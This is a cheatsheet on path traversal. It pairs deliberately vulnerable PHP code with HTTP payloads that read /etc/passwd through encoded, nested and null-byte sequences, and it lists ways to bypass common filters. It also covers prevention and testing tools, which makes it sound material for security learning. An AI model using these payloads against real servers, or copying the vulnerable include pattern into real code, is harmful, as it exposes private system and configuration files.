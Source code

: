 # 🔥 Path Traversal Vulnerabilities Cheatsheet

## 🎯 What is Path Traversal?

**Path traversal**, also known as directory traversal, is a web security vulnerability that allows an attacker to access files or directories on a server outside the intended file path. By manipulating file path parameters, attackers can bypass access controls and read arbitrary files, such as:
- Sensitive configuration files (`/etc/passwd`, `web.config`).
- Application source code.
- Logs containing sensitive data.

---

## 📂 Reading Arbitrary Files via Path Traversal

### 1. **Basic Example**
- **Vulnerable Code:**
  ```php
  <?php
  $file = $_GET['file'];
  include("/var/www/files/" . $file);
  ?>
  ```
- **Payload:**
  ```http
  GET /?file=../../../../etc/passwd HTTP/1.1
  ```
- **Explanation:**
  - The `../` sequences navigate up directories.
  - The payload resolves to `/etc/passwd`.

---

### 2. **Encoded Payloads**
- URL-encoding can be used to bypass naive filters:
  - `%2e%2e%2f` = `../`
  - `%2e%2e%5c` = `..\` (Windows systems).

### 3. **Double-URL Decoding**
- If the application decodes input multiple times, try encoding multiple layers:
  - First encoding: `%252e%252e%252f` = `%2e%2e%2f` = `../`

---

### 4. **Null Byte Injection**
- Null byte (`%00`) injection can bypass file extension checks:
  - **Payload:**
    ```http
    GET /?file=../../../../etc/passwd%00.png
    ```
  - **Explanation:**
    - `%00` terminates the string in some programming languages (e.g., C).

---

## 🔒 Common Obstacles to Exploiting Path Traversal Vulnerabilities

### 1. **Blocked Traversal Sequences**
- **Mitigation Example:**
  ```php
  if (strpos($file, '../') !== false) {
      die("Access denied");
  }
  ```
- **Bypass Techniques:**
  - Encode traversal sequences:
    - `%2e%2e%2f` for `../`
  - Use nested traversal:
    ```http
    ....//....//etc/passwd
    ```

---

### 2. **Stripping Traversal Sequences**
- Some applications strip `../` non-recursively:
  - **Example Filter:**
    - `file = str_replace("../", "", file);`
  - **Bypass:**
    ```http
    ....//etc/passwd
    ```

---

### 3. **Validation of Start of Path**
- Applications validate that the file path starts with an expected value:
  - **Example Filter:**
    - Allow only `/var/www/files/`.
  - **Bypass:**
    ```http
    /var/www/files/../../../../etc/passwd
    ```

---

### 4. **Validation of File Extension**
- File inclusion may enforce extensions (e.g., `.txt`):
  - **Bypass:** Use a null byte (`%00`):
    ```http
    GET /?file=../../../../etc/passwd%00.txt
    ```

---

## 🛡️ How to Prevent Path Traversal Attacks

1. **Validate User Input**
   - Use a whitelist of allowed file names.
   - Reject or sanitize input containing traversal sequences (`../`, `..\\`).

2. **Canonicalize File Paths**
   - Resolve file paths to their absolute equivalents and validate:
     ```php
     $realPath = realpath($baseDir . $file);
     if (strpos($realPath, $baseDir) !== 0) {
         die("Invalid file path");
     }
     ```

3. **Restrict Access to Necessary Directories**
   - Limit file access to a specific directory using server settings.
   - Example (Apache):
     ```apache
     <Directory /var/www/files>
         AllowOverride None
         Require all granted
     </Directory>
     ```

4. **Avoid Dynamic Path Construction**
   - Don’t concatenate user input into file paths:
     ```php
     include("/var/www/files/" . $file); // Avoid!
     ```

5. **Disable Unnecessary Functions**
   - Disable potentially dangerous PHP functions:
     ```ini
     disable_functions = "system, exec, shell_exec, passthru, popen"
     ```

6. **Use Framework-Specific Controls**
   - Many frameworks provide safe file handling methods:
     - **Python:** Use `os.path.join` and validate with `os.path.commonpath`.
     - **Java:** Use `java.nio.file.Paths` and `Files`.

---

## 🛠️ Tools for Path Traversal Testing

| Tool          | Purpose                             | URL/Command                            |
|---------------|-------------------------------------|----------------------------------------|
| Burp Suite    | Manual path traversal testing       | [Burp Suite](https://portswigger.net)  |
| wfuzz         | Automated payload fuzzing           | `wfuzz -z file,wordlist.txt -u URL`    |
| OWASP ZAP     | Automated vulnerability scanning    | [ZAP](https://owasp.org/www-project-zap/) |
| dirb          | Directory brute-forcing             | `dirb URL wordlist.txt`                |
| Path Traversal Labs | Practice path traversal attacks | [PortSwigger Labs](https://portswigger.net/web-security/file-path-traversal) |
